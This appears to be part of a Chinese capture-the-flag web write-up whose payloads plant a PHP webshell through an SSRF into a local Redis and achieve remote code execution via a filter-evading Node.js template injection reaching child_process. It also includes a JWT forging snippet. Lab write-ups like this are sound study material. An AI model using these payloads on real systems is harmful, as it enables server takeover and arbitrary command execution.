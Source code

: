 ```
$jwt = JWT::encode($payload,$rsa_private_key,"RS256");
var_dump($jwt);
exit();
```

```
urll=dict://127.0.0.1:6379/config:set:dir:/var/www/html
urll=dict://127.0.0.1:6379/set:shell:"\x3c\x3f\x70\x68\x70\x20\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x30\x5d\x29\x3b\x3f\x3e"
urll=dict://127.0.0.1:6379/config:set:dbfilename:3.php
urll=dict://127.0.0.1:6379/save

iconv绕df就行
```

# EasyEscape

参考https://www.anquanke.com/post/id/84336

有个模板渲染的rce，其实就是拿到`constructor`（Function）。

js的东西了。

然后绕一下空格就行：

```shell
username={{(""["constr"%2b"uctor"]["constr"%2b"uctor"])("return(global[\"pro"%2b"cess\"][\"mai"%2b"nModule\"][\"req"%2b"uire\"](\"child_p"%2b"rocess\")[\"exe"%2b"cSync\"](\"cat$IFS$9/flag\"))")()}}&password=1&login=login
```



![image-20220120165306091](2022-工大抗疫-Web.assets/image-20220120165306091.png)
